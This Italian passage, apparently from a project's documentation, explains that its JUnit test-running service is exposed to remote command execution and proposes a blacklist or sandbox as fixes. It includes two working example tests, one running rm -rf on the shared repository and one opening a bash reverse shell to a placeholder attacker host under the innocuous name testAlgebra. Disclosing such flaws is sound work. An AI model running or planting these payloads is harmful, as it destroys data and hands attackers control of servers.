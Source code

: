 # Problemi di sicurezza
A causa della libertà data all'utente per l'esecuzione di test, l'applicazione risulta estremamente vulnerabile ad attacchi di tipo Remote Command Execution (RCE), che consiste nell'esecuzione di codice arbitrario su un server da una locazione remota.

Qui è possibile vedere un semplice esempio di come un utente attaccante potrebbe eliminare totalmente la cartella della repository condivisa:

```java
import org.junit.Test;
import static org.junit.Assert.*;

public class AppTest{
  @Test
  public void breakRepository(){
    try {
      String[] command = {"rm", "-rf", "/repository"};
      Process process = new ProcessBuilder(command).start();
    } catch (Exception e){}
  }
}
```

Nei casi più gravi un attaccante può anche ottenere una shell remota e prendere il controllo totale del container che esegue i test.

```java
import org.junit.Test;
import static org.junit.Assert.*;

public class AppTest{
  @Test
  public void testAlgebra(){
    try {
      String[] command = {"/bin/bash", "-c", "exec 5<>/dev/tcp/attackerip/attackerport;cat <&5 | while read line; do $line 2>&5 >&5; done;"}; 
      Process process = new ProcessBuilder(command).start();
    } catch (Exception e){}
  }
}
```
(Ciò presuppone di essere in ascolto tramite tcp sul proprio ip `attackerip` e sulla porta `attackerport` per ottenere la shell).

Questa vulnerabilità può essere risolta principalmente in due modi:
- utilizzo di una **blacklist** di librerie, per non permettere all'utente di eseguire determinate azioni. Un approccio molto delicato, perché una singola dimenticanza lascia comunque il sistema completamente vulnerabile
- esecuzione dei test in una **sandbox** protetta, in modo tale che qualsiasi tentativo di attacco sia confinato in una zona sicura.
